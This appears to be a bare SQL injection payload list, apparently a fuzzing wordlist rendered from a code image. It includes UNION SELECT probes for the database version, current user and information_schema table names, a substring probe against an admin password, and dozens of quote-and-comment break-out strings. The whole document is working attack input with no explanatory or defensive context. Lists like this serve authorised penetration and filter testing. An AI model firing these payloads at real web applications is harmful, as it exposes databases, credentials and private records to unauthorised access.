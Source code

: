 ```
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
"
'-- 2
"-- 2
'='
0'&lt;'2
"="
0"&lt;"2
')
")
')-- 2
')/*
')#
")-- 2
") #
")/*
')-('
')&('
')^('
')*('
')=('
0')&lt;('2
")-("
")&("
")^("
")*("
")=("
0")&lt;("2
'-''-- 2
'-''#
'-''/*
'&''-- 2
'&''#
'&''/*
'^''-- 2
'^''#
'^''/*
'*''-- 2
'*''#
'*''/*
'=''-- 2
'=''#
'=''/*
0'&lt;'2'-- 2
0'&lt;'2'#
0'&lt;'2'/*
"-""-- 2
"-""#
"-""/*
"&""-- 2
"&""#
"&""/*
"^""-- 2
"^""#
"^""/*
"*""-- 2
"*""#
"*""/*
"=""-- 2
```